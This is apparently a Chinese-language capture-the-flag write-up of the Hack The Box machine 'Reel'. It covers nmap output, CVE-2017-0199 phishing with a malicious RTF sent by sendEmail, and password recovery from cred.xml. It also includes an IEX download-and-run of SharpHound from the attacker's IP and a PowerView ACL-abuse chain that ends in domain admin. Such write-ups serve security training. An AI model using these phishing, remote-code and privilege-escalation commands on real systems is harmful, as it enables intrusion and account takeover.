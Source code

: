 ```yaml
---
title: Reel
date: 2021-12-24 11:32:51
tags: Hack The Box
categoreies: 邮箱钓鱼
---
```


## 信息收集

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-14 05:18 EST
Nmap scan report for 10.10.10.77
Host is up (0.30s latency).
Not shown: 9997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp open  ssh     OpenSSH 7.6 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:20:c3:bd:16:cb:a2:9c:88:87:1d:6c:15:59:ed:ed (RSA)
|   256 23:2b:b8:0a:8c:1c:f4:4d:8d:7e:5e:64:58:80:33:45 (ECDSA)
|_  256 ac:8b:de:25:1d:b7:d8:38:38:9b:9c:16:bf:f6:3f:ed (ED25519)
25/tcp open  smtp?
| fingerprint-strings: 
|   Hello: 
|     220 Mail Service ready
|     EHLO Invalid domain address.
|   Help: 
|     220 Mail Service ready
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   NULL: 
|_    220 Mail Service ready
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port25-TCP:V=7.91%I=7%D=11/14%Time=6190E2F5%P=x86_64-pc-linux-gnu%r(NUL
SF:L,18,"220\x20Mail\x20Service\x20ready\r\n")%r(Hello,3A,"220\x20Mail\x20
SF:Service\x20ready\r\n501\x20EHLO\x20Invalid\x20domain\x20address\.\r\n")
SF:%r(Help,54,"220\x20Mail\x20Service\x20ready\r\n211\x20DATA\x20HELO\x20E
SF:HLO\x20MAIL\x20NOOP\x20QUIT\x20RCPT\x20RSET\x20SAML\x20TURN\x20VRFY\r\n
SF:");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   301.22 ms 10.10.14.1
2   301.21 ms 10.10.10.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.69 seconds
```

<!--more-->

发现开放了21端口，可以匿名登录，并且在documents目录下发现了两个docx文件，我们将其下载下来并使用exiftool查看内容如下![在这里插入图片描述](https://img-blog.csdnimg.cn/15c476e67c4941c6b76d60c03fdede70.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
readme.txt文件告诉我们有人正在等待 .rtf 文件并将打开它们进行审查，因为考虑到机器上正在运行 SMTP 服务，这可能是我们的目标，具有网络钓鱼攻击。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c858f787033a4c5b8a8cbbe73d598b86.png)

查阅官方文档发现，AppLocker可以阻止可执行文件和脚本

```bash
AppLocker procedure to be documented - hash rules for exe, msi and scripts  (ps1,vbs,cmd,bat,js) are in effect.
```

我们发现Windows Event Forwarding.docx这个文件中存在一个邮箱地址`nico@megabank.com`
![在这里插入图片描述](https://img-blog.csdnimg.cn/14102687e160477884fd2f3e6c8910a6.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

根据刚刚readme.txt的文件内容，我们可以尝试将rtf文件发送到这个地址上，我们从application字段中发现我们可以使用word文档的方式进行创建。并且我们在网上搜索看到，关于rtf文件漏洞利用是已经披露的漏洞编号`CVE-2017-0199`，此漏洞允许创建恶意 rtf 文档，在打开文档时启动 HTA（超文本应用程序)有效负载，Github 上有一个用于制作利用此漏洞的恶意文档的 Python 工具包，但也有一个 Metasploit 模块，我仍然将使用 Python 脚本。

## 漏洞利用

首先我们创建一个hta的载荷
![在这里插入图片描述](https://img-blog.csdnimg.cn/b6c156c3e5e84eebb3b7207a29673574.png)
本地开启http服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/ebf7fdbfa46043bb84f2a0e1c331c6c7.png)

然后利用这个hta脚本，创建rtf文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/bf21d9b792054d399fe94052c21c3129.png)
最后发送钓鱼邮件进行获取权限

```bash
sendEmail -f 0xdf@megabank.com -t nico@megabank.com -u Test -m "Hey, take a look at this new format procedure" -a document.rtf -s 10.10.10.77 -v
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/f64aa5ef2a984a4e92fd8dfed197da16.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发送钓鱼邮件并开启监听，我们得到了nico账户的用户权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/6965f266fe7341beb4fd71506ff9335b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 提权到TOM权限

我们从Nico账户的桌面上看到一个cred.xml文件，文件内容包含了password字段内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/b971324dcaa14613a8d91aa6b4997923.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
PowerShell 有一个称为 PSCredential 的对象，它提供了一种存储用户名、密码和凭据的方法。还有两个函数Import-CliXml和Export-CliXml，用于将这些凭据保存到文件中并从文件中恢复它们。该文件是Export-CliXml，我们发现Tom的密码是`1ts-mag1c!!!`

```bash
C:\Users\nico\Desktop>powershell -c "$cred=Import-CliXml -Path cred.xml;$cred.GetNetworkCredential() | Format-List *"
powershell -c "$cred=Import-CliXml -Path cred.xml;$cred.GetNetworkCredential() | Format-List *"

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

因为目标主机开放了22端口，因此我们可以连接主机的远程服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0ef87585054476281e5aa1595fa284e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在tom的桌面的AD audit文件夹下发现了一个有趣的文件内容，还有一个BloodHound文件夹
![在这里插入图片描述](https://img-blog.csdnimg.cn/67be2e3fd4494a14bc46cd3a6af8eb45.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e9b9cfa8736d42788e6f32b6d3b628fa.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
经过查阅文章发现，bloodhound通过csv文件形式保存文件的，都是2.0版本以前的了，那么我们现在有两个选择，一个是在目标主机上安装旧版本的bloodhound，二是将收集到的数据上传到我们攻击机上进行分析，我选择的是第二种方式。

首先我们将目标的脚本加载到内存中，绕过powershell的策略限制。收集到的信息保存在当前目录的一个压缩包中。

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/sharphound/SharpHound.ps1')
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/44243984d10a4293a08aebd5b9748298.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
为了传输方便，我们在本地开启smb服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/65746cbe84ba4b048fb124b74a55a741.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在攻击机上开启bloodhound后，将压缩包拖进去进行分析，点击`Shortest Paths to High Value Targets`。为了方便筛选，我们选择tom到admin的提权路径和nico到admin的路径进行分析
![在这里插入图片描述](https://img-blog.csdnimg.cn/29bd464348754983b4412b33ca42a996.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/399172cccb7243948e1b64abf136697b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我知道 claire 对 Backup_Admins 组具有 WriteDacl 权限。我可以用它把她加到群里，但是事先我们先得连接到claire这个用户上。

## 提权到Administrator

首先，我们将自己设置为 claire 帐户的所有者，以便我们可以更改她的属性；然后我们更改 claire AD 对象的访问控制列表 (ACL) 以授予我们自己 (Tom) 重置 claire 密码的权限；然后我们为该帐户选择一个新密码并将其转换为 SecureString 格式，这就是 PowerShell 用于密码的格式；我们可以使用我们选择的一个更改 claire 的密码；为了将用户添加到组，我们必须提供有效的用户凭据，因此我们声明一个 PSCredential 对象来包含 claire 的用户名和密码，因为她是对 Backup_Admins 组具有写访问权限的人；最后我们使用它来将自己添加到 Backup_Admins 组

```bash
PS C:\Users\tom\Desktop\AD Audit\BloodHound> import-module .\PowerView.ps1
PS C:\Users\tom\Desktop\AD Audit\BloodHound>  Set-DomainObjectOwner -Identity claire -OwnerIdentity tom                         
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-ObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword  
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $password= ConvertTo-SecureString 'Password_123!' -AsPlainText -Force              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $password                 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $creds = New-Object System.Management.Automation.PSCredential('HTB\claire',$passwor
d)                                                                                                                              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainGroupMember -Identity 'Backup_Admins' -Members 'claire' -Credential $cred
s
```

whoami /all查看到我们已经处于backup_admins组中了
![在这里插入图片描述](https://img-blog.csdnimg.cn/9ff1c27957d54fe3b71bfa62126f58b1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
但是我们还是无法查看root.txt的内容，我们却可以查看`Backup Scripts`的内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/b4491a3626c84023b3f122732aa44800.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
但是我们在`BackupScript.ps1`中找到管理员的密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/3285fc7c314a4f98840bb0bc74f27320.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
直接登录管理员账号
![在这里插入图片描述](https://img-blog.csdnimg.cn/f96c6ddacbff4775947400c9dfd03743.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

